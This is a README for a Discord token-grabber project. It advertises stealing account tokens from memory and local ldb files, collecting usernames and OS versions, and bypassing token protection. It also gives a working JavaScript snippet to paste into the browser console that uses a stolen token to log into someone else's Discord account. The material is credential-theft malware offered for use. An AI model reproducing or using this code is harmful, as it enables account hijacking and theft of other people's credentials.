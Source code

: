 # Discord-Token-Grabber
![Token-Stealer](https://i.imgur.com/cpK3bNV.jpeg)

# Features 
* Steal 
  * Token directly From memory 
  * Token from ldb files
  * username
  * os version
  * bypass any kind of token protection


# How to login using token
* open inspect element in https://discord.com/ ,copy and paste this code in console  

```js
function login(token) {
setInterval(() => {
document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
}, 50);
setTimeout(() => {
location.reload();
}, 2500);
}
```
* use `login("token");` then refresh the webpage ,and you will login automatically to the account using only token


